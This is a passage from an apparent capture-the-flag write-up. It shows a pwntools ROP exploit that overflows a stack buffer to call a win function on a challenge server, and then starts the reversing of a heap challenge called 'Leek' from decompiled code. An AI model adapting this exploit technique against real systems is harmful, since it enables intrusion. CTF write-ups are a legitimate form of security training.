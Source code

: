 ```bash
$ python3 exploit.py
[+] Opening connection to challs.actf.co on port 31301: Done
[*] Switching to interactive mode
 actf{b4by's_f1rst_pwn!_
```
{: .nolineno }

Keep in mind that we have to add an additional `payload += pack(0x0)` to our payload, since we did not have a gadget with only `pop rsi`, but instead `pop rsi; pop r15`. So we add a random value (in this case 0x0) to insert into the `r15` register.

If we would want to do this using pwntool's ROP objects our exploit would look like this
```python
offset = 72
pop_rdi = 0x4013b3
pop_rsi_r15 = 0x4013b1

io = start()
io.recvuntil(b"input:")

rop = ROP(exe)
rop.raw(b"\x90" * offset)
rop.win1(0x1337, 0x4141)

io.sendline(rop.chain())
io.interactive()
```
{: .nolineno }

## Leek
```
nc challs.actf.co 31310

leek Dockerfile

Author: JoshDaBosh
```
Reversing the given binary with ghidra we find the main function
```c
void main(){
    puts("I dare you to leek my secret.");
    int i = 0;
    while(true){
        if(99 < counter){
            puts("Looks like you made it through.");
            win();
        }
        char *input_1 = malloc(0x10);
        char *password = malloc(0x20);
        memset(password, 0x20, 0);
        getrandom(password, 0x20, 0);
        for(j = 0; j < 0x20; j++){
            if((password[j] == '\0') || (password[j] == '\n')){
                password[j] = '\x01';
            }
        }
        printf("Your input (NO STACK BUFFER OVERFLOWS!!): ");
        input(input_1);
        printf(":skull::skull::skull: bro really said: ");
        puts(input_1);
        printf("So? What\'s my secret? ");
        fgets(input_2,33,stdin);
        cmp = strncmp(random_buf,input_2,0x20);
        if(cmp != 0) break;
```